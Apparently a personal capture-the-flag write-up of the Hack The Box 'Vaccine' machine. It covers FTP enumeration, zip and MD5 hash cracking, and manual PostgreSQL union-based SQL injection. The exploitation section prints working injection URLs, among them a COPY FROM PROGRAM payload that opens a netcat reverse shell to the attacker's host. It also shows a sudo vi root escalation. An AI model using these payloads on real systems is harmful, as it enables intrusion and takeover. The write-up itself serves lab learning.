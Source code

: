 
# Vaccine – Penetration Testing Write-Up

## Introduction

Write-up number 2, here we go! This one was a little more in depth than the last and I felt the intended paths were shorter and lot more frequent. HTB wanted us to look at the tool `sqlmap` but this is an automated exploitation tool which is not allowed on the OSCP, I spent quite some time exploring the different methods to exploit vulnerable postgres servers and learned a lot along the way!

---

## Information Gathering

### Target Discovery

Here we started with a basic nmap scan `nmap -sC -sV {target_ip}`
![](https://i.imgur.com/y9S4MaQ.png)


### Service Enumeration

It does look like we have a few services open
21 - FTP with Anonymous login allowed
22 - SSH
80 - HTTP with an Apache server running


---

## Enumeration

### Port 80 - HTTP
Looks like we are greeted with a login page. I tried a few basic credentials, simple sql injection (because of the boxes tags), and took a look at the cookies. Nothing I want to spend a ton of time on just yet.
![](https://i.imgur.com/QbHWQiU.png)

### Port 21 - FTP

Something a little more interesting, and most likely the intended pathway. If you ignore me trying to learn `tnftp` we're greeted with a backup.zip file. Lets check it out!
![](https://i.imgur.com/8EYumjz.png)

It looks like we are going to need to crack the password (the tags again).
![](https://i.imgur.com/TvQfYed.png)

After some research, for us to use John The Ripper on a zip file, we're going to need to get the hash that we're going to crack using another tool called `zip2john`
![](https://i.imgur.com/PKP5EKh.png)

With the new file, we can pass that into John The Ripper and quickly find the password to the zip file.
![](https://i.imgur.com/B0yRIut.png)

We're greeted with two files, a php files and a stylesheet. I'll be honest, I didn't even look at the css file. 
But here is something interesting, from the php file, this looks like the login portal we saw earlier and the program is is checking to see if the md5 of the password submitted equals a specific hash. Let's bring our new friend back out!
![](https://i.imgur.com/JtPgtuR.png)

I set the formatting to md5 and a file with hash and no other arguments. This session stopped after a few minutes. I probably could have checked against another word list or something else. But I saw the opportunity to use my main rig, for cracking this.
![](https://i.imgur.com/dbiPW4U.png)

I used hashcat in the past, but it's been a while. So I downloaded that, and the rockyou password list, after about 1.5 ms, we found the password!
![](https://i.imgur.com/HWu6bDy.png)


---

## Exploitation

Now, one of the tags was sql injection, this page only has a single search field. I could have scanned with gobuster or burp, but this seemed like the intended path.
![](https://i.imgur.com/EIRFx7s.png)

The tasks for this box wanted us to use `sqlmap` but, that is a auto-exploiting tool and will get your test thrown out if you use it on the OSCP. Additionally, sql injection seems like a valuable skill to hone early on. I spent quite a bit of time on learning the different methods to do this. In particular the [payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings) Repo was a huge help and so was [OWASP's](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection) guide!

Eventually, after *some* trial and error, was able to get confirmation that the site was vulnerable to sql injection with this command. 
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, version(), 't', 't', 't'--
```

Which gave me the output:
```
PostgreSQL 11.7 (Ubuntu 11.7-0ubuntu0.19.10.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008, 64-bit
```


I moved on to enumerating different directories to find some information, here I was able to identify the user flag, as well as an ssh key.
```
http://10.129.193.163/dashboard.php?search=elixir' UNION SELECT 1, pg_ls_dir('../../'), 't', 't', 't'--
```

![](https://i.imgur.com/Fc9IZ8I.png)

Unfortunately, I was not able to ssh in this way. So I had to dig a bit deeper.
![](https://i.imgur.com/UWoyXEZ.png)

About now, is when I started to really understand what I was doing with the union based injection and again, thanks to PayloadAllTheThings, I was able to establish a reverse shell with netcat and the two following commands.
```
http://10.129.193.163/dashboard.php?search=elixir'; CREATE TABLE shell(output text);--

http://10.129.193.163/dashboard.php?search=elixir'; COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.190 1337 >/tmp/f';--
```

---

## Privilege Escalation

Just like that, we were to establish a reverse shell to the postgres user. This shell was really finicky. The connection closed frequently, it wasn't fully interactive, every time it closed I had to use the last sql injection. I tried to do a few things to get a foothold, I tried to get new ssh keys and change the permissions, run linpeas, and a few other methods. Eventually, I did some more digging and and found credentials for the postgres user.
![](https://i.imgur.com/YrzRyga.png)

This allowed me to ssh in as postgres and establish a clean foothold as well as continue my priv esc. The next task hinted at programs the postgres user can run as root using sudo. I've delt with something like this in the past, and after a couple quick google searches, using the command `sudo -l` lists exactly this. Here we were able to identify that the postgres user can run sudo for the program vi, but on on the `pg_nba.conf` file.
![](https://i.imgur.com/0QMw5U9.png)

although linpeas was not working in the netcat shell very well, it may have been helpful to point me at the vi exploit here. However, after a bit of searching around, I and later learned in the write up, about the repository https://gtfobins.github.io/ (as well as https://lolbas-project.github.io/# for windows) which contains privilege escalation techniques and so much more for out of the box programs. After a bit of trial and error. I was able to escalate my privileges by using the command 
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

Followed by the commands described in the vi exploit:
```bash
:set shell=/bin/sh
:shell
```

This gave me a root shell, and I was able to quickly snag the root flag.
![](https://i.imgur.com/R35iaBH.png)

---

## Outcome

Thank you for taking to time to read, or at least skim through this post. This box took some time, but I learned quite a bit along the way. Skipping `sqlmap` allowed me to deep dive into different techniques for sql injection. I also had no idea how many privilege escalation techniques there were. During this time I also tried out a more structured note taking technique that I found from [QuirkyKirkHax](https://www.youtube.com/watch?v=gXFTM3fRqIg) that structured things in a way that I am a fan of, I think I will build and modify that as I go forward.

---

## Notes

Once again, I did want to take a look at the write up to see what I missed or anything interesting.
- We took similar routes at the beginning, they looked at the ftp server first, but they also used both John and hashcat. 
- For one they used the `hashid` program. I just assumed since we were comparing the md5 of the encrypted input the hash was going to be md5.
- The `sqlmap` seems pretty handy, and maybe more helpful as things get more complex, but it still did require some work to set up

---
